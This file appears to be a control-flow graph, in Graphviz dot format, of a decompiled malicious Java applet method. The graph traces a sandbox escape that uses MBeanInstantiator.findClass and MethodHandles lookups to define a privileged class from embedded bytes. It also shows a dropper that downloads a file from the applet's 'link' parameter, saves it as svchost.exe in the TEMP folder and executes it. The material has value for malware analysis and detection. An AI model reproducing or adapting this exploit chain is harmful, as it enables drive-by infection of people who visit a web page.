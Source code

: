 digraph "" {
    "r0 := @this: hero"
    "new zurozuro"
    "r0 := @this: hero"->"new zurozuro";
    "store.r r15"
    "new zurozuro"->"store.r r15";
    "load.r r15"
    "store.r r15"->"load.r r15";
    "specialinvoke <zurozuro: void <init>()>"
    "load.r r15"->"specialinvoke <zurozuro: void <init>()>";
    "specialinvoke <zurozuro: void <init>()>"->"load.r r15";
    "virtualinvoke <zurozuro: byte[] dar()>"
    "load.r r15"->"virtualinvoke <zurozuro: byte[] dar()>";
    "pop"
    "virtualinvoke <zurozuro: byte[] dar()>"->"pop";
    "pop"->"load.r r15";
    "fieldget <zurozuro: com.sun.jmx.mbeanserver.MBeanInstantiator cano>"
    "load.r r15"->"fieldget <zurozuro: com.sun.jmx.mbeanserver.MBeanInstantiator cano>";
    "fieldget <zurozuro: com.sun.jmx.mbeanserver.MBeanInstantiator cano>"->"load.r r15";
    "fieldget <zurozuro: java.lang.String x1>"
    "load.r r15"->"fieldget <zurozuro: java.lang.String x1>";
    "fieldget <zurozuro: java.lang.String x1>"->"load.r r15";
    "fieldget <zurozuro: java.lang.ClassLoader bno>"
    "load.r r15"->"fieldget <zurozuro: java.lang.ClassLoader bno>";
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>"
    "fieldget <zurozuro: java.lang.ClassLoader bno>"->"virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>";
    "store.r r1"
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>"->"store.r r1";
    "staticget <java.lang.Void: java.lang.Class TYPE>"
    "store.r r1"->"staticget <java.lang.Void: java.lang.Class TYPE>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"
    "staticget <java.lang.Void: java.lang.Class TYPE>"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>";
    "store.r r2"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"->"store.r r2";
    "store.r r2"->"load.r r15";
    "load.r r15"->"fieldget <zurozuro: com.sun.jmx.mbeanserver.MBeanInstantiator cano>";
    "fieldget <zurozuro: com.sun.jmx.mbeanserver.MBeanInstantiator cano>"->"load.r r15";
    "fieldget <zurozuro: java.lang.String x2>"
    "load.r r15"->"fieldget <zurozuro: java.lang.String x2>";
    "fieldget <zurozuro: java.lang.String x2>"->"load.r r15";
    "load.r r15"->"fieldget <zurozuro: java.lang.ClassLoader bno>";
    "fieldget <zurozuro: java.lang.ClassLoader bno>"->"virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>";
    "store.r r3"
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>"->"store.r r3";
    "load.r r3"
    "store.r r3"->"load.r r3";
    "load.r r3"->"load.r r15";
    "fieldget <zurozuro: java.lang.invoke.MethodHandles$Lookup dado>"
    "load.r r15"->"fieldget <zurozuro: java.lang.invoke.MethodHandles$Lookup dado>";
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""
    "fieldget <zurozuro: java.lang.invoke.MethodHandles$Lookup dado>"->"push class \"Ljava/lang/invoke/MethodHandles$Lookup;\"";
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""->"load.r r15";
    "fieldget <zurozuro: java.lang.String x3>"
    "load.r r15"->"fieldget <zurozuro: java.lang.String x3>";
    "fieldget <zurozuro: java.lang.String x3>"->"load.r r15";
    "fieldget <zurozuro: java.lang.invoke.MethodType haco>"
    "load.r r15"->"fieldget <zurozuro: java.lang.invoke.MethodType haco>";
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"
    "fieldget <zurozuro: java.lang.invoke.MethodType haco>"->"virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>";
    "push 3"
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"->"push 3";
    "newarray"
    "push 3"->"newarray";
    "store.r r8"
    "newarray"->"store.r r8";
    "load.r r8"
    "store.r r8"->"load.r r8";
    "push 0"
    "load.r r8"->"push 0";
    "push 0"->"load.r r15";
    "load.r r15"->"fieldget <zurozuro: java.lang.invoke.MethodHandles$Lookup dado>";
    "arraywrite.r"
    "fieldget <zurozuro: java.lang.invoke.MethodHandles$Lookup dado>"->"arraywrite.r";
    "arraywrite.r"->"load.r r8";
    "push 1"
    "load.r r8"->"push 1";
    "load.r r1"
    "push 1"->"load.r r1";
    "load.r r1"->"arraywrite.r";
    "arraywrite.r"->"load.r r8";
    "push 2"
    "load.r r8"->"push 2";
    "load.r r2"
    "push 2"->"load.r r2";
    "load.r r2"->"arraywrite.r";
    "arraywrite.r"->"load.r r8";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"
    "load.r r8"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "checkcast"
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r2";
    "store.r r2"->"load.r r2";
    "load.r r2"->"push 0";
    "push class \"Ljava/lang/String;\""
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"load.r r2";
    "load.r r2"->"push 1";
    "push class \"Ljava/lang/invoke/MethodType;\""
    "push 1"->"push class \"Ljava/lang/invoke/MethodType;\"";
    "push class \"Ljava/lang/invoke/MethodType;\""->"arraywrite.r";
    "push class \"Ljava/lang/invoke/MethodHandle;\""
    "arraywrite.r"->"push class \"Ljava/lang/invoke/MethodHandle;\"";
    "push class \"Ljava/lang/Class;\""
    "push class \"Ljava/lang/invoke/MethodHandle;\""->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"load.r r2";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"
    "load.r r2"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "store.r r6"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"store.r r6";
    "store.r r6"->"push 0";
    "push 0"->"newarray";
    "newarray"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r2";
    "push class \"Ljava/lang/ClassLoader;\""
    "store.r r2"->"push class \"Ljava/lang/ClassLoader;\"";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"
    "push class \"Ljava/lang/ClassLoader;\""->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"->"store.r r8";
    "store.r r8"->"load.r r15";
    "load.r r15"->"fieldget <zurozuro: java.lang.invoke.MethodHandles$Lookup dado>";
    "fieldget <zurozuro: java.lang.invoke.MethodHandles$Lookup dado>"->"push class \"Ljava/lang/invoke/MethodHandles$Lookup;\"";
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""->"load.r r15";
    "fieldget <zurozuro: java.lang.String x4>"
    "load.r r15"->"fieldget <zurozuro: java.lang.String x4>";
    "load.r r6"
    "fieldget <zurozuro: java.lang.String x4>"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>";
    "dup1.r"
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"->"dup1.r";
    "push 4"
    "dup1.r"->"push 4";
    "push 4"->"newarray";
    "newarray"->"store.r r6";
    "store.r r6"->"load.r r6";
    "load.r r6"->"push 0";
    "push 0"->"load.r r15";
    "load.r r15"->"fieldget <zurozuro: java.lang.invoke.MethodHandles$Lookup dado>";
    "fieldget <zurozuro: java.lang.invoke.MethodHandles$Lookup dado>"->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "load.r r6"->"push 1";
    "push 1"->"load.r r1";
    "load.r r1"->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "load.r r6"->"push 2";
    "push 2"->"load.r r15";
    "fieldget <zurozuro: java.lang.String x5>"
    "load.r r15"->"fieldget <zurozuro: java.lang.String x5>";
    "fieldget <zurozuro: java.lang.String x5>"->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "load.r r6"->"push 3";
    "push 3"->"load.r r8";
    "load.r r8"->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r1";
    "store.r r1"->"load.r r1";
    "load.r r1"->"push 0";
    "push 0"->"load.r r2";
    "load.r r2"->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "load.r r1"->"push 1";
    "push null"
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r1";
    "store.r r1"->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"[B\""
    "push 0"->"push class \"[B\"";
    "push class \"[B\""->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"store.r r2";
    "store.r r2"->"push 4";
    "push 4"->"newarray";
    "newarray"->"store.r r8";
    "store.r r8"->"load.r r8";
    "load.r r8"->"push 0";
    "push 0"->"load.r r15";
    "load.r r15"->"fieldget <zurozuro: java.lang.invoke.MethodHandles$Lookup dado>";
    "fieldget <zurozuro: java.lang.invoke.MethodHandles$Lookup dado>"->"arraywrite.r";
    "arraywrite.r"->"load.r r8";
    "load.r r8"->"push 1";
    "push 1"->"load.r r3";
    "load.r r3"->"arraywrite.r";
    "arraywrite.r"->"load.r r8";
    "load.r r8"->"push 2";
    "push 2"->"load.r r15";
    "fieldget <zurozuro: java.lang.String x6>"
    "load.r r15"->"fieldget <zurozuro: java.lang.String x6>";
    "fieldget <zurozuro: java.lang.String x6>"->"arraywrite.r";
    "arraywrite.r"->"load.r r8";
    "load.r r8"->"push 3";
    "push 3"->"load.r r2";
    "load.r r2"->"arraywrite.r";
    "arraywrite.r"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 3";
    "push 3"->"newarray";
    "newarray"->"store.r r3";
    "store.r r3"->"load.r r3";
    "load.r r3"->"push 0";
    "push 0"->"load.r r1";
    "load.r r1"->"arraywrite.r";
    "arraywrite.r"->"load.r r3";
    "load.r r3"->"push 1";
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r3";
    "load.r r3"->"push 2";
    "push 2"->"load.r r15";
    "fieldget <zurozuro: byte[] gomorath>"
    "load.r r15"->"fieldget <zurozuro: byte[] gomorath>";
    "fieldget <zurozuro: byte[] gomorath>"->"arraywrite.r";
    "arraywrite.r"->"load.r r3";
    "load.r r3"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"
    "checkcast"->"virtualinvoke <java.lang.Class: java.lang.Object newInstance()>";
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"->"pop";
    "new java.lang.StringBuilder"
    "pop"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"TEMP\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"TEMP\"";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "push \"TEMP\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\\svchost.exe\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\svchost.exe\"";
    "push \"\\svchost.exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r15";
    "new java.io.BufferedInputStream"
    "store.r r15"->"new java.io.BufferedInputStream";
    "new java.io.BufferedInputStream"->"store.r r3";
    "store.r r3"->"load.r r3";
    "new java.net.URL"
    "load.r r3"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "load.r r0"
    "dup1.r"->"load.r r0";
    "push \"link\""
    "load.r r0"->"push \"link\"";
    "virtualinvoke <hero: java.lang.String getParameter(java.lang.String)>"
    "push \"link\""->"virtualinvoke <hero: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <hero: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>";
    "new java.io.FileOutputStream"
    "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"->"new java.io.FileOutputStream";
    "new java.io.FileOutputStream"->"store.r r1";
    "store.r r1"->"load.r r1";
    "load.r r1"->"load.r r15";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "load.r r15"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "new java.io.BufferedOutputStream"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"new java.io.BufferedOutputStream";
    "store.r r0"
    "new java.io.BufferedOutputStream"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"load.r r1";
    "push 1024"
    "load.r r1"->"push 1024";
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>"
    "push 1024"->"specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>";
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>"->"push 1024";
    "push 1024"->"newarray";
    "newarray"->"store.r r1";
    "store.r r1"->"load.r r3";
    "load.r r3"->"load.r r1";
    "virtualinvoke <java.io.BufferedInputStream: int read(byte[])>"
    "load.r r1"->"virtualinvoke <java.io.BufferedInputStream: int read(byte[])>";
    "store.i r2"
    "virtualinvoke <java.io.BufferedInputStream: int read(byte[])>"->"store.i r2";
    "load.i r2"
    "store.i r2"->"load.i r2";
    "push -1"
    "load.i r2"->"push -1";
    "ifcmpeq.i load.r r0"
    "push -1"->"ifcmpeq.i load.r r0";
    "ifcmpeq.i load.r r0"->"load.r r0";
    "load.r r0"->"load.r r1";
    "load.r r1"->"push 0";
    "push 0"->"load.i r2";
    "virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>"
    "load.i r2"->"virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>";
    "virtualinvoke <java.io.BufferedOutputStream: void write(byte[],int,int)>"->"load.i r2";
    "i2l"
    "load.i r2"->"i2l";
    "store.l $l2"
    "i2l"->"store.l $l2";
    "goto load.r r3"
    "store.l $l2"->"goto load.r r3";
    "goto load.r r3"->"store.r r0";
    "push class \"Lhero;\""
    "store.r r0"->"push class \"Lhero;\"";
    "virtualinvoke <java.lang.Class: java.lang.String getName()>"
    "push class \"Lhero;\""->"virtualinvoke <java.lang.Class: java.lang.String getName()>";
    "staticinvoke <java.util.logging.Logger: java.util.logging.Logger getLogger(java.lang.String)>"
    "virtualinvoke <java.lang.Class: java.lang.String getName()>"->"staticinvoke <java.util.logging.Logger: java.util.logging.Logger getLogger(java.lang.String)>";
    "staticget <java.util.logging.Level: java.util.logging.Level SEVERE>"
    "staticinvoke <java.util.logging.Logger: java.util.logging.Logger getLogger(java.lang.String)>"->"staticget <java.util.logging.Level: java.util.logging.Level SEVERE>";
    "staticget <java.util.logging.Level: java.util.logging.Level SEVERE>"->"push null";
    "push null"->"load.r r0";
    "virtualinvoke <java.util.logging.Logger: void log(java.util.logging.Level,java.lang.String,java.lang.Throwable)>"
    "load.r r0"->"virtualinvoke <java.util.logging.Logger: void log(java.util.logging.Level,java.lang.String,java.lang.Throwable)>";
    "return"
    "virtualinvoke <java.util.logging.Logger: void log(java.util.logging.Level,java.lang.String,java.lang.Throwable)>"->"return";
    "ifcmpeq.i load.r r0"->"load.r r0";
    "virtualinvoke <java.io.BufferedOutputStream: void close()>"
    "load.r r0"->"virtualinvoke <java.io.BufferedOutputStream: void close()>";
    "virtualinvoke <java.io.BufferedOutputStream: void close()>"->"load.r r3";
    "virtualinvoke <java.io.BufferedInputStream: void close()>"
    "load.r r3"->"virtualinvoke <java.io.BufferedInputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.BufferedInputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r15";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r15"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto return"
    "pop"->"goto return";
}
